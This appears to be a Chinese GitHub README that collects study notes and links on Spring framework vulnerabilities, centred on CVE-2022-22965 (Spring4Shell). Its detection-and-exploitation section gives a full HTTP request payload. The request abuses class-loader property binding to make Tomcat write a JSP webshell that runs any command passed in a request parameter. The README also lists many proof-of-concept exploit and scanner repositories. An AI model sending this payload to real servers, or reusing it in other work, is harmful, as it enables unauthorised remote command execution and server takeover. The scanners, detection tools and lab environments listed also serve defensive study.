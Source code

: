 # HackSpring-永恒之春

本项目用来致敬全宇宙最无敌Spring框架！同时也记录自己在学习Spring漏洞过程中遇到的一些内容。本项目会持续更新，本项目创建于2022年3月30日，最近的一次更新时间为2022年4月26日。作者：[0e0w](https://github.com/0e0w)

- [01-Spring基础知识]()
- [02-Spring框架识别]()
- [03-Spring上层建筑]()
- [04-Spring漏洞汇总]()
- [05-Spring检测利用]()
- [06-Spring漏洞修复]()
- [07-Spring分析文章]()
- [08-Spring靶场环境]()

## 01-Spring基础知识

- Spring
- SpringBoot

## 02-Spring框架识别

- https://mp.weixin.qq.com/s/cmkTMw_QS8o1wMsRd0E0XQ

## 03-Spring上层建筑

**Spring + ？ = rce ！**

## 04-Spring漏洞汇总

- CVE-2022-22965

## 05-Spring检测利用

如何判断一个网站是否存在Spring漏洞？如何查找内网中存在Sprin漏洞？

一、Payload

```
POST / HTTP/1.1
Host: 127.0.0.1:8090
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
suffix: %>//
c1: Runtime
c2: <%
DNT: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 761

class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22S%22.equals(request.getParameter(%22Tomcat%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=Shell&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```

二、源码检测
- https://github.com/webraybtl/springcore_detect

三、漏洞验证

- 测试时发现webshell只能写入一次！第二次失败！

四、漏洞扫描

五、其他工具
- https://github.com/TheGejr/SpringShell
- https://github.com/BobTheShoplifter/Spring4Shell-POC
- https://github.com/kh4sh3i/Spring-CVE
- https://github.com/GuayoyoCyber/CVE-2022-22965
- https://github.com/viniciuspereiras/CVE-2022-22965-poc
- https://github.com/reznok/Spring4Shell-POC
- https://github.com/jschauma/check-springshell
- https://github.com/colincowie/Safer_PoC_CVE-2022-22965
- https://github.com/alt3kx/CVE-2022-22965
- https://github.com/alt3kx/CVE-2022-22965_PoC
- https://github.com/exploitbin/CVE-2022-22963-Spring-Core-RCE
- https://github.com/light-Life/CVE-2022-22965-GUItools
- https://github.com/Mr-xn/spring-core-rce
- https://github.com/Kirill89/CVE-2022-22965-PoC
- https://github.com/Axx8/SpringFramework_CVE-2022-22965_RCE
- https://github.com/likewhite/CVE-2022-22965
- https://github.com/mebibite/springhound
- https://github.com/irgoncalves/f5-waf-enforce-sig-Spring4Shell
- https://github.com/hktalent/spring-spel-0day-poc
- https://github.com/darryk10/CVE-2022-22963
- https://github.com/WeiJiLab/Spring4Shell-POC
- https://github.com/Corgizz/SpringCloud
- https://github.com/NewBeginning6/spring-Framework-rce
- https://github.com/wjl110/CVE-2022-22965_Spring_Core_RCE
- https://github.com/k3rwin/spring-core-rce
- https://github.com/thelostworldFree/SpringCloud-Config-CVE-2020-5410
- https://github.com/YanMu2020/SpringScan
- https://github.com/wearearima/poc-cve-2018-1273
- https://github.com/metaStor/SpringScan
- https://github.com/fullhunt/spring4shell-scan
- https://github.com/Qualys/spring4scanwin

## 06-Spring漏洞修复

## 07-Spring分析文章

- https://www.cyberkendra.com/2022/03/springshell-rce-0-day-vulnerability.html
- https://bugalert.org/content/notices/2022-03-29-spring.html
- https://websecured.io/blog/624411cf775ad17d72274d16/spring4shell-poc
- https://www.springcloud.io/post/2022-03/spring-0day-vulnerability
- https://spring.io/blog/2022/03/31/spring-framework-rce-early-announcement
- https://tttang.com/archive/1532

## 08-Spring靶场环境

- https://github.com/jbaines-r7/spring4shell_vulnapp
- https://github.com/Kirill89/CVE-2022-22965-PoC
- https://github.com/DDuarte/springshell-rce-poc
- https://github.com/XuCcc/VulEnv

[![Stargazers over time](https://starchart.cc//HackJava/Spring.svg)](https://starchart.cc/HackJava/Spring)

